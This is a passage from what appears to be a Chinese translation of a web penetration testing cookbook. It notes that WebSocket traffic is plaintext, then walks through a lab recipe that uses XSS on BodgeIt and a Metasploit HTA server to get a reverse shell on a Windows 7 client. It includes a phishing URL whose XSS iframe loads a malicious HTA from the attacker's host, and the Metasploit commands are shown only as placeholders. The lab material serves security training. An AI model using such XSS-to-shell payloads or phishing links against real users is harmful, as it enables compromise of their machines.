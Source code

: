 WebSockets 是纯文本格式，与 HTTP 相似。服务器仍然要求你实现 HTTPS 来提供加密层。如果我们使用 Wireshark 对前面练习中的通信进行嗅探，我们可以轻松读取消息：

![](assets/1114f8a7-adc4-423d-944d-2290e587ca14.png)

注意，客户端发送的消息是被掩盖的（未加密的），而服务器发送的消息是明文的；这是 RFC 6455 协议定义的一部分（[http://www.rfc-base.org/txt/rfc-6455.txt](http://www.rfc-base.org/txt/rfc-6455.txt)）。

# 使用 XSS 和 Metasploit 获取远程 Shell

在前面的章节中，我们已经看到，XSS 可被攻击者用来提取用户信息或在应用程序范围内代表用户执行操作。然而，通过稍微多一点的努力和一些巧妙的社会工程，攻击者可以利用 XSS 说服用户下载并执行恶意软件，从而危害其客户端计算机，并进一步访问本地网络。

在这个示例中，我们将看到更复杂的 XSS 攻击的概念验证，最终导致攻击者能够在受害者计算机上远程执行命令。

# 准备工作

对于这个示例，我们将使用易受攻击的 VM `vm_1` 上的 BodgeIt 作为受攻击的应用程序。为了清晰起见，我们还需要一个单独的客户端虚拟机。在这个示例中，我们将在我们的实验室中添加一个 Windows 7 虚拟机。

如果您尚未配置 Windows 虚拟机，Microsoft 提供了多种设置供开发人员测试其应用程序在其 Internet Explorer 和 Edge 浏览器中使用；您可以从 [https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) 下载它们。对于这个示例，我们将使用带有 IE 8 的 Windows 7。随意尝试其他版本；只需在架构和操作系统设置中进行一些微小更改，应该也可以工作。

# 如何做到...

我们将利用 XSS 让浏览器打开并执行我们在 Kali 虚拟机中托管的恶意 HTA 文件：

1.  首先，让我们设置服务器。打开 Metasploit 控制台：

[PRE10]

1.  一旦启动，执行以下命令加载攻击模块和载荷：

[PRE11]

1.  现在，我们的服务器将监听端口 `8888`：

[PRE12]

1.  一旦执行了载荷，反向连接的监听器将在端口 `12345` 上：

[PRE13]

![](assets/14d5ed1b-11be-4b98-bc7b-c1f9c5b490d8.png)

1.  现在，运行攻击并等待客户端连接：

[PRE14]

![](assets/361113ad-f065-4230-9b9f-d15c607dc342.png)

服务器启动时请注意提供的信息。本地 IP 值告诉我们如何访问恶意的 HTA 文件，其文件名是随机字符串并附带扩展名 `.hta`（本例中为 `k0Pjsl1tz2cI3Mm.hta`）。

1.  现在，前往我们的客户端 Windows 虚拟机，并打开 Internet Explorer。

1.  假设攻击者发送了一封包含链接到 `http://192.168.56.11/bodgeit/search.jsp?q=t<iframe src="http://192.168.56.10:8888/k0Pjsl1tz2cI3Mm.hta"></iframe>` 的钓鱼邮件给受害者。在 Internet Explorer 中打开该链接。
